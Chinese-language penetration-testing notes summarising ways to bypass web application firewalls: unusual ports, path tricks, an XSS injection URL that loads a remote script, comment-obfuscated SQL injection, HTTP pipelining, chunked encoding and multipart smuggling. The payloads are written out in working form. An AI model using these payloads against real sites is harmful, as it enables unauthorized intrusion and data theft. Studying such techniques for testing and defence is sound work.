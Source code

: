 # 绕 waf 总结

---

## Reference
- [██大学通用型WAF不完全绕过(持续非定期更新) ](https://drivertom.blogspot.com/2018/12/waf.html)
- [技术讨论 | 在HTTP协议层面绕过WAF](https://www.freebuf.com/news/193659.html)
- [利用分块传输吊打所有WAF](https://www.anquanke.com/post/id/169738)
- [编写Burp分块传输插件绕WAF](http://gv7.me/articles/2019/chunked-coding-converter/)

---

## 非默认端口导致完全绕过

测试 HTTPS 服务
测试 8080/8081 等端口的服务

## 路径限制绕过

比如这只 WAF 会对访问敏感路径加以限制,但是加上参数可以绕过。

比如想访问 `xxx.██.edu.cn/phpmyadmin/` 会被拦截,访问 `xxx.██.edu.cn/phpmyadmin/?id=1` 可以绕过

## XSS 防护绕过

最直白的 payload 类似 `<script> alert('xss'); </script>`
但是你可以用 `<script src=来远程加载脚本,并绕过防护`

`http://██.██.edu.cn/██/██?search=naive%22%3E%20%3Cmeta%20name=%22referrer%22%20content=%22never%22%20%3E%20%3Cscript%20src=%22https://cdn.jsdelivr.net/gh/TomAPU/xsstest/test.js%22%3E%3C/script%3E%20%3C!--`

## SQL 注入绕过

Union 注入时 `union select 1 from 2` 替换成 `union/*fuckyou//*a*//*!select*/1/*fuckyou//*a*//*!from*/2`

order by 测试时直接把空格换成 `/**//**/`

## 分段传输

**利用 pipline 绕过**
- **原理**

    http 协议是由 tcp 协议封装而来，当浏览器发起一个 http 请求时，浏览器先和服务器建立起连接 tcp 连接，然后发送 http 数据包（即我们用 burpsuite 截获的数据），其中包含了一个 Connection 字段，一般值为 close，apache 等容器根据这个字段决定是保持该tcp连接或是断开。当发送的内容太大，超过一个 http 包容量，需要分多次发送时，值会变成 keep-alive，即本次发起的 http 请求所建立的 tcp 连接不断开，直到所发送内容结束 Connection 为 close 为止。

- **测试**

    关闭 burp 的 Repeater 的 Content-Length 自动更新，如图所示，点击红圈的 Repeater 在下拉选项中取消 update Content-Length 选中。这一步至关重要！！！
    ![image](../../../img/渗透/笔记/绕waf总结/1.png)

    burp 截获 post 提交

    `id=1 and 1=1` 会被 waf，将数据包复制一遍，如图

    ![image](../../../img/渗透/笔记/绕waf总结/2.png)

    接着修改第一个数据包的数据部分，即将 `id=1+and+1%3D1` 修改为正常内容 `id=1`，再将数据包的 Content-Length 的值设置为修改后的 `id=1` 的字符长度即 4，最后将 Connection 字段值设为 keep-alive。提交后如图所示，会返回两个响应包，分别对应两个请求。

    ![image](../../../img/渗透/笔记/绕waf总结/3.png)

    注意：从结果看，第一个正常数据包返回了正确内容，第二个包含有效载荷的数据包被某狗 waf 拦截，说明两数据包都能到达服务器，在面对其他 waf 时有可能可以绕过。无论如何这仍是一种可学习了解的绕过方法，且可以和接下来的方法进行组合使用绕过。

**分块编码传输绕过**
- **原理**

    在头部加入 Transfer-Encoding: chunked 之后，就代表这个报文采用了分块编码。这时，post 请求报文中的数据部分需要改为用一系列分块来传输。每个分块包含十六进制的长度值和数据，长度值独占一行，长度不包括它结尾的，也不包括分块数据结尾的，且最后需要用 0 独占一行表示结束。

    开启上个实验中已关闭的 content-length 自动更新。给 post 请求包加入 Transfer-Encoding: chunked 后，将数据部分 `id=1 and 1=1` 进行分块编码（注意长度值必须为十六进制数），每一块里长度值独占一行，数据占一行如图所示。
    ![image](../../../img/渗透/笔记/绕waf总结/4.png)

    注意：分块编码传输需要将关键字 and,or,select ,union 等关键字拆开编码，不然仍然会被 waf 拦截。编码过程中长度需包括空格的长度。最后用 0 表示编码结束，并在 0 后空两行表示数据包结束，不然点击提交按钮后会看到一直处于 waiting 状态。

**利用协议未覆盖进行绕过**
- **原理**

    HTTP 头里的 Content-Type 一般有 application/x-www-form-urlencoded，multipart/form-data，text/plain 三种，其中 multipart/form-data 表示数据被编码为一条消息，页上的每个控件对应消息中的一个部分。所以，当 waf 没有规则匹配该协议传输的数据时可被绕过。

    将头部 Content-Type 改为 `multipart/form-data; boundary=69` 然后设置分割符内的 Content-Disposition 的 name 为要传参数的名称。数据部分则放在分割结束符上一行。
    ![image](../../../img/渗透/笔记/绕waf总结/5.png)

    由于是正常数据提交，所以从图可知数据是能被 apache 容器正确解析的，尝试 `1 and 1=1` 也会被某狗 waf 拦截，但如果其他 waf 没有规则拦截这种方式提交的数据包，那么同样能绕过。

    一般绕waf往往需要多种方式结合使用，示例中，只需将数据部分 `1 and 1=1` 用一个小数点 `”.”` 当作连接符即 `1.and 1=1` 就可以起到绕过作用。当然，这只是用小数点当连接符所起的作用而已。

**组合使用**

在协议未覆盖的数据包中加入 Transfer-Encoding: chunked ，然后将数据部分全部进行分块编码，如图所示(数据部分为 `1 and 1=1` )。

![image](../../../img/渗透/笔记/绕waf总结/6.png)

注意：第2块，第3块，第7块，和第8块。

第2块中需要满足
```
长度值
空行
Content-Disposition: name="id"
空行
```

这种形式，且长度值要将两个空行的长度计算在内（空行长度为2）。

第3块，即数据开始部分需满足
```
长度值
空行
数据
```

形式，且需将空行计算在内。

第7块即分割边界结束部分，需满足
```
长度值
空行
分割结束符
空行
```

形式，且计算空行长度在内。

第8块需满足
```
0空格
空行
空行
```
形式。如果不同时满足这四块的形式要求，payload 将不会生效。

**使用注释扰乱分块数据包**

通过 [RFC7230](https://tools.ietf.org/html/rfc7230) 阅读规范发现分块传输可以在长度标识处加上分号 `“;”` 作为注释，如：
```
9;kkkkk
1234567=1
4;ooo=222
2345
0
(两个换行)
```
